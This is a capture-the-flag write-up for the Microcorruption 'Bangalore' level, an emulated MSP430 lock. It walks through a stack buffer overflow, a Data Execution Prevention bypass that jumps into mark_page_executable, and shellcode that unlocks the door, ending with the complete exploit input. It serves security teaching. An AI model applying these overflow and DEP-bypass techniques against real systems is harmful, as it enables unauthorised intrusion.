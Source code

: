 ```yaml
---
title: "Microcorruption Bangalore Writeup"
categories: CTF
comments: true
---
```


This level introduces the concept of DEP, or Data Execution Prevention. You can read a lot about DEP elsewhere, but the gist of it is in the name -- it prevents instructions from being executed in certain areas of memory. So simply injecting and running your favorite shellcode will no longer work, if that area of memory is marked as non-executable. We will have to find a way around DEP. Let's check the Lock Manual for the specifics.

Under the interrupts, we can see that `INT 0x10` without any arguments turns on DEP. There doesn't appear to be a way to turn it off. `INT 0x11` marks a page as either only executable, or only writeable. It takes two arguments, the first argument being the page number, the second being 1 if writeable, 0 if executable. Okay, that sound pretty straightforward.

The executable is pretty short and easy to read compared to previous levels. `set_up_protection` is called, which marks pages as writeable or executable, and then turns on DEP.

```assembly
44e0:  0f43           clr	r15
44e2:  b012 b444      call	#0x44b4 <mark_page_executable>
```

The very first page (0x00) is marked executable. This makes sense, since address 0x10 has a callgate causing the software interrupt that must be executable.

```assembly_x86
44e6:  1b43           mov	#0x1, r11
44e8:  0f4b           mov	r11, r15
44ea:  b012 9c44      call	#0x449c <mark_page_writable>
44ee:  1b53           inc	r11
44f0:  3b90 4400      cmp	#0x44, r11
44f4:  f923           jne	#0x44e8 <set_up_protection+0xa>
```

This next section marks the next 0x43 pages as writeable. Since the base of the executable is at address 0x4400, we can probably safely assume the page size is 256 bytes for the MSP430. The remaining pages are all marked as executable.

Strangely, looking at `main`, `login` and `conditional_unlock_door`, the password doesn't appear to be read or validated anywhere. Nowhere is INT 0x7E called. So this lock doesn't appear open at all. Executing shellcode is probably the only way past this level.

```
4526:  3e40 3000      mov	#0x30, r14
452a:  0f41           mov	sp, r15
452c:  b012 6244      call	#0x4462 <getsn>
4530:  3f40 6524      mov	#0x2465, r15
4534:  b012 7a44      call	#0x447a <puts>
4538:  3150 1000      add	#0x10, sp
453c:  3041           ret
```

Breaking on this section shows us that we've got a buffer overflow of size 0x20 (0x30 - 0x10) on the stack, the first word of which is the return address, at 0x3ffe.

Let's try executing some shellcode. We enter the following password:

```
41414141414141414141414141414141 | ee3f
```

This overwrites the `login` return address to 0x3fee, which is the start of our buffer. After entering it, and trying to execute 0x4141, you'll get the following message:

```
Segmentation Fault: can not execute write-only page.
```

That is DEP at work. The page containing our buffer is marked as non-executable. So we can't jump directly into our controlled buffer to execute shellcode. We have to mark our buffer as executable first. How do we do that? First we look at `mark_page_executable`. It takes its arguments from registers r14 and r15.

```
44b6:  0312           push	#0x0
44b8:  0e12           push	r14
44ba:  3180 0600      sub	#0x6, sp
44be:  3240 0091      mov	#0x9100, sr
44c2:  b012 1000      call	#0x10
44c6:  3150 0a00      add	#0xa, sp
```

It pushes 0x0 and the page number in r14 to the stack, and then calls the interrupt, with 0x9100 in the status register, sr (you'll remember 0x11 was the interrupt to mark a page writeable or executable. It's been ANDed with 0x8000. It appears that the most significant bit is some kind of flag). Since we control the stack, we can simply place 0x0 and our page number of choice on the stack, and skip to 0x44ba (we could also skip to 0x44bc, but it would change the alignment for the two interrupt arguments on the stack by 0x6).

So which page do we set to executable? Our buffer spans page 0x3f and 0x40. The shellcode to open the lock is quite small. So in the interest of keeping the entered password short, let's mark page 0x3f as executable.

Let's construct our input to bypass DEP:

```
41414141414141414141414141414141 | ba44 | 3f00 0000 | ee3f
```

The 16 dummy bytes are the password buffer. The next word is the `login` return address. We overwrite this in with 0x44ba in order to jump to the middle of `mark_page_executable`. The next two words are the arguments to the interrupt -- 0x003f is the page number, 0x0000 designates it as executable. The next word is the `mark_page_executable` return address. We overwrite it with 0x3fee in order to return to our buffer.

If you try this, you'll note there is no segfault, the next (garbage) instruction 0x4141 is executed. Success! That means the first part of our buffer is now executable. You may have noticed that the sixth word of our buffer was overwritten with 0x44c6. This was the return address for the interrupt. So that limits our shellcode to 5 words. If we need more, we can simply jump to after the return address, and place our shellcode there.

Now that everything is in place, we need to write the shellcode to open the lock. This is done by triggering `INT 0x7F`. So let's write the instructions to do that.

```
mov       #0xff00, sr
call      #0x10
```

0xff00 is the result of 0x8000 AND 0x7f00. The rest is straightforward. The instructions can be translated into machine code by using the assembler on the site, referencing the MSP430 instruction set, or simply looking for similar instructions in the executable.

Putting it all together, we get the following input that opens the lock.

```
3240 00ff b012 1000 4141 4141 4141 4141 ba44 3f00 0000 ee3f
```
